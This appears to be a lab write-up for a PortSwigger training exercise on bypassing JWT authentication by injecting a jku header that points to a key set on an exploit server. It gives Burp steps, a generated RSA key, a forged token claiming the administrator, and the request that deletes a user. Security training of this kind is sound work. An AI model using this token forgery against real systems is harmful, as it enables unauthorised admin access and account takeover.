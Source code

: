 # JWT authentication bypass via jku header injection

## Description

[This lab](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection) uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## Reproduction and proof of concept

### Upload a malicious JWK Set

1. In Burp, load the [JWT Editor extension](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) from the BApp store.
2. In the lab, log in to your own account and send the post-login `GET /my-account` request to Burp Repeater.
3. In Burp Repeater, change the path to `/admin` and send the request. Observe that the admin panel is only accessible when logged in as the administrator user.
4. Go to the **JWT Editor Keys** tab in Burp's main tab bar.
5. Click **New RSA Key**.
6. In the dialog, click **Generate** to automatically generate a new key pair, then click **OK** to save the key. Note that you don't need to select a key size as this will automatically be updated later.

```text
{
    "p": "6U8QUkjEgY_xfM0mVnsw-2XZCcXNRI6M-EAqyMJSgUN0AKp6TVwgrcloFj_7VSxHicbc6sXTpQW70iAax6U9wOJWkLhAMUDF_UQ8EeYENKPEakqVJEAOIicSZmB7wV_fYkSfnr64RljApyXSN4O_0kdWxWcgB5Tcuxw3lXqe1-s",
    "kty": "RSA",
    "q": "3HG-c-3y47tWuGIM8KIZY9gbiDXII8IKSCFVxPk7cRMrpueNDgp5-A18JuXWda4tBE1saXDFAaOXAyuAn9FdmseMxYrQkXzlK6u0j8rtzXzq8RVwgRtfXrosWzhoJJyH9cSBYo-tnX6077tgswmKOu-OviJBvyqmm6D3FrjsBB8",
    "d": "Tu2Gznhl1TPU1TaJcj8As6p79W2u3lAjJWv97HrtK-eRRbwm8O88dpeqtik1BBl1OiXTWv-08CTNCF9UBeG-_VsqZ0BaRtnppYeVlgzlGUlNm7-JhjTVXWitODzGopAEGt5SUUgTzau8-lVt1st69YG1_RNrGL7MuVX-B3akpicYTbJxWLzmATRyzeTz8yxAcLH1yXF8428hIlNw59ocplRavjF2mM4_VJxN11UfEBkyaDxm5UnFqSLkaDx5kkfzx56urPCpvsnWq78zFV-k2avEd1R_10API90iU3hbximcEhmBtCJHIPq3JPiU6iShML3Nkg7o6rcb4VfjCcIdBQ",
    "e": "AQAB",
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "qi": "I9Lj-UdZ_khdA9YPNYlBOQK84qRL7wYVUw2ZVAK6jdKKX2Eqsr7okHPg6uaAGlxex0F9ZunVK2BnfK-ETpkNkrA_6GOyHJj3Ui35YTkDaHQy6FEaX2DIkTsBtVC2TZ2Q50Yl7wFoVowd7krE0rM_nCGl5DcT7JWnYqfSB4JpNKM",
    "dp": "SWN0Z9256mNj-_TwNU3k939vCRLuYb1RfJl6m9H8b-rO55K4i_MJ2IC9PBp-LamTCzTBsxvtWkB2dz9gDSLeTPklb7p1fsi4PtWi66Jl-kT1eNXjGhcIGxgdQpTg-M_2jYu2hhHKF169oxZTjODlivijw86PlbLux_C1T1DV_Gc",
    "dq": "m_g6WUnVHX2x-Nke8K6wKi2AJVpwFaS3o5s6VRhGD1YR_5A7A-EztObNnbPmjfLDVRT2jI_GQ8ecFBkWc30trlJb7nSt5xIoD0L4iPh6UnZ8wEB8DkzwqFQvCAeb37OEmsYDCVpA63r3x9qaq3InhFV0eGBChmBF6zzzNfd2vd8",
    "n": "yOebf0BX83Le6RNJLXkvAbtezgNxdV259TGE5EH_XzXunOSxjSQtHoQdSkND-QZYyUZXU6kE0iF6wcBFGGhUYu73JR_XqeV1F5ElzypMcV99mWulBRWaByjIOC1ocZMISo5f02Zpq7MReGwuN4Ow-80B_IiyYJqvu3XyRfwfliwN4wnioeIq4Woc94SCgTBbiGRVUzke59KWIg1gmEHg4g2VhQFt0VbyqrYq_QX8lHrN3gau1vtkvTHq6ZlBK7ZQWrKHuWOw_MMbZBJi1nyvKs2VsPJwHEJsuY5ID6e02nFKA2XJxYOK2GHp4UQJaXXfkfvCWsOxoCnPEpHWST_RdQ"
}
```

7. In the browser, go to the exploit server.
8. Replace the contents of the Body section with an empty **JWK Set**:

```text
{
    "keys": [

    ]
}
```

9. Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select **Copy Public Key as JWK**.
10. Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this:

![JWT](/_static/images/jwt5.png)

### Modify and sign the JWT

1. Go back to the `GET /admin` request in Burp Repeater and switch to the extension-generated **JSON Web Token message** editor tab.
2. In the header of the JWT, replace the current value of the `kid` parameter with the `kid` of the JWK that you uploaded to the exploit server.
3. Add a new `jku` parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.

```text
{
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "alg": "RS256",
    "jku": "https://exploit-0a7b002e04e9fa4dc1f30ce501ad00df.exploit-server.net/.well-known/jwks.json"
}
```

4. In the payload, change the value of the `sub` claim to `administrator`.

```text
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1677593837
}
```

5. At the bottom of the tab, click **Sign**, then select the RSA key that you generated in the previous section.
6. Make sure that the `Don't modify header` option is selected, then click **OK**. The modified token is now signed with the correct signature.
7. Send the request. Observe that you have successfully accessed the admin panel.
8. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`). 

![JWT](/_static/images/jwt6.png)

Send the request to this endpoint to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; forge a JWT that gives access to the admin panel at `/admin`; then delete the user carlos.
